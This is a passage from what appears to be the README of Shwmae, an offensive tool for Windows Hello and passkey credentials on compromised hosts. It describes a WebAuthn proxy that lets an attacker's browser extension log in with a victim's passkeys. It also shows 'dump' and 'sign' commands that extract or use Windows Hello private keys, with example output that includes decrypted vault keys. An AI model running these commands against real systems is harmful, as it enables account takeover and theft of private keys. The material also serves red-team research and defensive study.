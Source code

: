 Once the WebAuthn HTTP listener is setup on a compromised host, which defaults to listening on port 8000, you can install the ShwmaeExt within an attacking browser.  Once you set the listener URL within the extension, you can login via Passkey authentication using any credentials available from the compromised host.  You can find the exploded extension inside the `ShwmaeExt` folder.

### Example

```Shwmae webauthn
[+] Decrypted SYSTEM vault policy 4bf4c442-9b8a-41a0-b380-dd4a704ddb28 key: 2f662c4708167c02732ae89cd4681557be8c4059b3eab1716bbf20ac5fd000fdd0c5038ce2fc4c89fd6627f45b8e613611e8282d8f38c08e828c023f6b8f060b
[+] Decrypted vault policy:
  Aes128: 3cb7dbc9f920a6df0aab211b67ef673d
  Aes256: 43642515f325f55c332d14e0295d3ad43dfdb05324fadb7bea687f1a9e0e6ecd
[=] WebAuthn proxy running, press enter to exit
```

## Dump

The `dump` command can be used for extracting Windows Hello backed private keys that are backed by the Software Key Storage provider.  You cannot use this mode to extract keys that are backed by the Platform Key Storage Provider.

### Example

```
Shwmae.exe dump --key-name login.windows.net/de60a4fa-d583-4eb0-ab66-ce358af8279c/mary.gruber@ethicalchaos.devst
```

## Sign

The `sign` command can be used for signing arbitrary data with a specific key.  This mode can be useful in scenarios where no specific integration exists within the tool.

The `--key-name` argument is used to target the specific Windows Hello key pair to use and the `--data` argument is used to calculate the signature.  The data should be presented as a Base64 encoded string, but the string is first decoded to binary prior to generating the signature.  The binary signature is converted to Base64 and printed to the console.  

### Example

```
Shwmae.exe sign --key-name login.windows.net/de60a4fa-d583-4eb0-ab66-ce358af8279c/mary.gruber@ethicalchaos.dev --data AAAAAA
[+] Decrypted SYSTEM vault policy 4bf4c442-9b8a-41a0-b380-dd4a704ddb28 key: 2f662c4708167c02732ae89cd4681557be8c4059b3eab1716bbf20ac5fd000fdd0c5038ce2fc4c89fd6627f45b8e613611e8282d8f38c08e828c023f6b8f060b
[+] Decrypted vault policy:
  Aes128: 3cb7dbc9f920a6df0aab211b67ef673d
  Aes256: 43642515f325f55c332d14e0295d3ad43dfdb05324fadb7bea687f1a9e0e6ecd
[=] Found key in container 1f75e567-63ab-4f90-b1f6-cfc30b399085 for user GINGE\mary.gruber (S-1-5-21-1003644063-402998240-3342588708-1111)
[+] Successfully decrypted NGC key set from protector type Bio
[+] Success:
MogfSZKrtYs9kfy0jPrVODpu4/eJfXHvGu+TQJzf9JG9JMug2+rmG7zEBuzUunMVy7jyHSBwv1eQ78yQr/G5y0VfoeKYnW5UbKuO9ZnImTuIFem4RE7RhQ84Pm4BgEQ3W16ebcf5CIHnIOZpOec6nbh7WZBIi2AG8N5fWK9itWA1Uk7j1TAFO7gCfAbrE9O6KiMLe4AAdw2vjR5s9RVqw1MdacWKOBDwGVm+VmHY6kYXSCovyWJ+ESoi75fRfRSgyPcHViNOP77pnUDOeMfl9nsE6C0UEKSCvJ+GGJy3u5uiK5fC1w73TG8s/Y2O6YSJpjnXqC5ZJhrE/vLtJNtGWg==
```